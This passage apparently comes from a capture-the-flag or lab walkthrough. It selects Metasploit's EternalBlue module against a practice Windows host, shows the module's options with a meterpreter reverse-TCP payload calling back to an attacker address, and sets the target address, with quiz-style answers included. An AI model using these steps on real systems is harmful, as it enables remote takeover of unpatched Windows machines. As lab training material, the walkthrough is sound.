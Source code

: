We'll use the `exploit/windows/smb/ms17_010_eternalblue` module, which targets Windows 7 and Server 2008 R2 systems.

**Answer:** What is the full path of the code? **exploit/windows/smb/ms17_010_eternalblue**

### Step 3: Configure the Exploit

Select the exploit and examine its configuration options:

```bash
use exploit/windows/smb/ms17_010_eternalblue
show options
```

**Output:**
```
Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

Set the target host (RHOSTS) to our vulnerable machine:

```bash
set RHOSTS 10.10.10.40
```
